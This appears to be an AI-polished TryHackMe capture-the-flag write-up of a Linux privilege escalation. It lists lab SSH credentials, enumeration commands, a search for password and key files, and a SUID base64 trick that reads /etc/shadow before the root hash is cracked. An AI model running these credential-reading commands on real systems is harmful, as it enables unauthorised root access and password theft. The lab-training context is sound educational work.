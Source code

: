Here's a clearer, more professional, and better-structured version of your write-up:

---

**TryHackMe Write-Up**

* **Target IP:** `10.10.55.87`
* **VPN:** Connected to TryHackMe using OpenVPN.
* **Initial Access:** Connected to the target VM via SSH using the following credentials:

  * **Username:** `leonard`
  * **Password:** `Penny123`

---

### 🧭 Enumeration

1. **Checked user privileges:**

   ```bash
   id
   ```

2. **Identified the hostname:**

   ```bash
   hostname
   ```

3. **Checked the kernel version:**

   ```bash
   uname -r
   ```

   * Kernel version: `3.10.0-1160.el7.x86_64`

4. **Checked for sudo privileges:**

   ```bash
   sudo -l
   ```

5. **Searched for interesting files (e.g., passwords, SSH keys):**

   ```bash
   find / -type f \( -name "*pass*" -o -name "*ssh*" \) 2>/dev/null
   ```

   * Nothing useful found.

6. **Searched online for kernel-specific vulnerabilities:**

   * No exploitable vulnerabilities found for this kernel version.

7. **Checked for files with SUID permissions:**

   ```bash
   find / -type f -perm -04000 -ls 2>/dev/null
   ```

   * Found several SUID binaries.
   * Notably, `base64` had the SUID bit set.

---

### 🛠 Exploitation via SUID `base64`

Using GTFOBins[[gtobins.com](https://gtfobins.github.io/#), , I discovered that the `base64` command can be abused to read files as another user when SUID is set.

* Read `/etc/shadow` using:

  ```bash
  base64 /etc/shadow | base64 --decode
  ```

* Extracted the root user's password hash from the file.

* Cracked the hash using [hashes.com]([https://hashes.com/en/decrypt/hash), which revealed the root password.

---

### 🔐 Privilege Escalation

* Switched to the root user:

  ```bash
  su root
  ```

  * Entered the cracked password and successfully gained root access.

---

### 🏁 Flags

* Retrieved both `flag1` and `flag2` from the `missy` and `root` directories, respectively.

---

**Status:** ✅ Root access achieved and both flags captured.

Thanks!

---

Let me know if you want a Markdown version or need help writing more reports like this.
